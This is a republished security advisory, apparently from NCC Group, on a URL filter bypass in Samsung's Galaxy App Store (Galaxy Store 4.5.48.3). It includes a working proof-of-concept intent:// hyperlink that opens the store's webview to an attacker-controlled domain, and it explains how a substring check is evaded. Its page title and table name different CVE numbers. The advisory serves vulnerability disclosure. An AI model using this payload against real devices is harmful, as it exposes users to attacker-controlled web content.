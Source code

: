 ```yaml
---
layout: page
title: CVE-2023-21433 Details
permalink: /cves/cve-2023-21433
---
```


#### Original post: [https://research.nccgroup.com/2023/01/20/technical-advisory-multiple-vulnerabilities-in-the-galaxy-app-store-cve-2023-21433-cve-2023-21434/](https://research.nccgroup.com/2023/01/20/technical-advisory-multiple-vulnerabilities-in-the-galaxy-app-store-cve-2023-21433-cve-2023-21434/)

|    **Product**    | Galaxy Store 4.5.48.3, other versions affected |
|    **Severity**   |                  Moderate                  |
| **CVE Reference** |             CVE-2023-21434             |
|      **Type**     |      URL Filter Bypass      |

## Summary

It was found that a webview within the Galaxy App Store contained a filter which limited which domains that webview could browse to. However, the filter was not properly configured, which would allow the webview to browse to an attacker controlled domain.

## Impact

Either tapping a malicious hyperlink in Google Chrome or a pre-installed rogue application on a Samsung device can bypass Samsung’s URL filter and launch a webview to an attacker controlled domain.

## Proof of Concept (PoC)

While using the Chrome web browser on a Samsung device, the following hyperlink can be tapped to exploit this issue:

```
<h1>
  <a id="yayidyay" rel="noreferrer" href="intent://cloudgame/monitor?monitoringHost=<host>#Intent;action=android.intent.action.VIEW;package=com.sec.android.app.samsungapps;scheme=normalbetasamsungapps;S.android%2eintent%2eextra%2eREFERRER_NAME=http://com.sec.android.app.samsungapps;end">
YAYPOCYAY</a>
</h1>
```

In the above PoC, "<host>" needs to be replaced with an attacker controlled domain, and a malicious website must be hosted on the domain over HTTPS. The domain name must have "player.glb.samsung-gamelauncher.com" in it. For example, the domain "player.glb.samsung-gamelauncher.com.nccgroup.com" would be a valid domain.

## Technical Walkthrough

After launching the above PoC, the class `com.sec.android.app.samsungapps.deeplink.CloudGameDeepLink` is loaded, and the method `e(context)` is executed. This method determines if the Cloud Game deeplink should be executed, and the requirements to return "True" are:

* The "sender" of the intent must be "com.sec.android.app.samsungapps"
    * This can be achieved by adding the string intent extra `android.intent.extra.REFERRER_NAME` in a browsable intent, and launched from the Google Chrome browser
    * Using the Samsung Browser will not meet this requirement due to how the browser handles browsable intents
* The "monitoringHost" parameter must contain the string "player.glb.samsung-gamelauncher.com"

```
private boolean e(Context context) {
    if (context.getPackageName().equals(getSender())) {
        return this.L.getMonitoringHost().contains("player.glb.samsung-gamelauncher.com");
    }
    Loger.w(String.format("[%s] Unauthorized access from %s", M, getSender()));
    return false;
    }
```

An attacker can register an arbitrary domain and add "player.glb.samsung-gamelauncher.com" as a subdomain. For example, the domain "player.glb.samsung-gamelauncher.com.nccgroup.com" would force the method `e(context)` to return "True"

## Recommendation

Samsung has released an updated version of the Galaxy App Store (version 4.5.49.8). Users should open the Galaxy App Store on their phone, and if prompted, download and install the latest version.

## Timeline

|    **Date**    | **Summary** |
|   03/12/2022   | Samsung notified of vulnerability |
|   03/12/2022   | Samsung acknowledge receipt of report and a security analyst was assigned to analyze the report |
|   18/12/2022   | Samsung confirmed the vulnerability and rated it as a Moderate risk |
|   01/01/2023   | Samsung has released Galaxy App Store version 4.5.49.8 and has publicly disclosed the issue |